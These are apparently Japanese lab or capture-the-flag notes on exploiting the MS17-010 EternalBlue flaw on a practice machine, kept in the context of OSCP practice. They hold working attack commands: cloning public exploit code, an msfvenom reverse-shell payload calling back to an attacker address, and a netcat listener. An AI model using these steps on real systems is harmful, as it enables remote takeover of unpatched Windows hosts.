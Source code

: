   

* CVE-2017-0143を中心に調査を進める
* 以下PoCを利用する

https://github.com/k4u5h41/MS17-010_CVE-2017-0143

```bash
# 環境整備
$ git clone https://github.com/k4u5h41/MS17-010_CVE-2017-0143.git   
$ pyenv versions                                                           
$ poetry init
$ poetry add impacket
$ poetry add pycrypto
$ poetry shell
```

```bash
# パッチチェック
python checker.py 10.10.10.4
```

※うまくChecker.pyが動かない.....

↓↓↓↓↓↓↓↓↓以降Writeupを参照↓↓↓↓↓↓↓↓↓↓↓↓↓↓

* 以下git cloneする

```bash
git clone https://github.com/helviojunior/MS17-010   
```

* MSFvenomを利用する（リバースシェルのpayloadを作成するため）
  ※OSCPではmeterpreterを使わなければ他は許されているそう

  ```bash
  msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.12 LPORT=4444 -f exe > eternalblue.exe
  ```

  ※リバースシェルなので攻撃側のサーバー(kali)のtun0のIPアドレスを指定
  
* attac machineでlistenする

  ```bash
  nc -nlvp 4444
  ```

  

* exploitコードを動かす（コードの中身見たけどなにやってるか全くわからん）

  * まずpython2で動かすためにpoetry 環境を整備する。色々試した結果以下手順でpoetryのpythonバージョンを2.7.17にできた
  
    ```bash
    $ poetry init
    # ここでCompatible Python versions [^3.10]:  2.7.17に設定すること
    $ poetry env use ~/.pyenv/versions/2.7.17/bin/python
    $ poetry env list
    ms17-010-I9h2g7af-py2.7 (Activated)
    ms17-010-I9h2g7af-py3.10
    # あとは通常と同じ手順でライブラリaddして、poetry shellを実行する
    ```
  